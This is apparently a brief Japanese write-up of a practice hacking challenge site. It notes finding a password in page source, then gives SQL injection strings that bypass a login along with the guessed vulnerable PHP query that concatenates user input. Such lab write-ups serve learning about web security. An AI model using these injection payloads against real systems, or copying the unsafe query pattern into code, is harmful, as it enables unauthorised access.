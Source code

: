 # Hackme

* http://hackme.netfire.jp/start
  * beast_zer0_0303
  * `tr******`

## Lv1

* curl -L http://hackme.netfire.jp/Lv1/
  * curl で user 情報 を送信すれば webページが見れる
* curl -H
* Chrome 使っているので、メニューからソースを表示されてみたら、パスワードあった

## Lv2

* password に `'` を入れたらエラーになる
  * `Warning: pg_query() [function.pg-query]: Query failed: ERROR: syntax error at or near "'"`
* SQL インジェクション

たぶんこんなプログラム
```
$password = $_REQUEST['password'];
$result   = pg_query($conn, "select * from password where password = '{password}'");
```

* 不正解
  * `' or 1 = '1`
  * `' or 1 = '1 --`
* 正解
  * `' or 1 = 1--;`

## Lv3

* http://hackme.netfire.jp/Lv3/login にアクセスしたら
  * `cannot access : No such file or directory.` になる
